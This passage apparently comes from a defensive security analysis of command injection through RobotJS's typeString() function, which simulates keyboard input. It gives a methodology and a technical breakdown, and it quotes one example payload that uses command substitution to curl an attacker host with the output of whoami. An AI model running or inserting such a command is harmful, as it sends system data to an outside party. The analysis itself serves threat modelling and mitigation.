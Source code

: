 This deep analysis will be conducted using the following methodology:

1.  **Technical Documentation Review:**  Review the official RobotJS documentation, specifically focusing on the `typeString()` function and its interaction with the operating system's input mechanisms.
2.  **Example Attack Dissection:**  Analyze the provided example attack (`$(curl attacker.com/exfiltrate?data=$(whoami)) #`) step-by-step to understand how it leverages command injection and RobotJS.
3.  **Vulnerability Pattern Identification:**  Identify the common vulnerability pattern that enables this attack, focusing on the lack of input validation and sanitization.
4.  **Threat Modeling:**  Consider the attacker's perspective and potential attack scenarios. Identify likely entry points within an application where malicious input could be injected.
5.  **Risk Assessment:**  Evaluate the potential impact of a successful attack based on common cybersecurity risk assessment frameworks (e.g., considering confidentiality, integrity, and availability).
6.  **Mitigation Strategy Brainstorming:**  Generate a comprehensive list of potential mitigation techniques based on security best practices for input validation, command injection prevention, and secure coding principles.
7.  **Documentation and Reporting:**  Document the findings, analysis, and recommendations in a clear and structured markdown format, as presented here.

---

### 4. Deep Analysis of Attack Tree Path: Injecting OS Commands or Malicious Scripts through Text Input Simulated by RobotJS

#### 4.1. Technical Breakdown of the Attack

This attack path exploits the functionality of RobotJS's `typeString()` function.  Here's a detailed breakdown:

*   **RobotJS `typeString()` Function:** This function simulates keyboard input at the operating system level.  When called, it programmatically generates keyboard events as if a user were physically typing on the keyboard. These events are then processed by the operating system and any applications currently in focus.
*   **Operating System Input Handling:** Operating systems interpret keyboard input based on the context of the active application or system component. In many contexts, especially within command-line interfaces (terminals, shells) and even some applications, certain characters and character combinations are interpreted as special commands or control sequences.
*   **Command Injection Vulnerability:**  Command injection vulnerabilities arise when an application allows user-controlled input to be incorporated into commands that are then executed by the operating system.  If this input is not properly sanitized or validated, an attacker can inject malicious commands that will be executed with the privileges of the application or the user running the application.
*   **Exploiting `typeString()` for Command Injection:**  By using `robotjs.typeString()` to simulate typing malicious commands, an attacker can bypass typical application-level input validation or sanitization. Because RobotJS operates at the OS level, the simulated keystrokes are directly processed by the OS, effectively bypassing the application's input handling mechanisms in this specific context.

**In essence, the attack works because:**

1.  **RobotJS `typeString()` simulates OS-level keyboard input.**
2.  **The OS interprets this input as if it were from a real user.**
3.  **If the simulated input contains OS commands, the OS will execute them.**
4.  **An application using RobotJS might inadvertently become a conduit for injecting commands if it uses `typeString()` with unsanitized user input.**
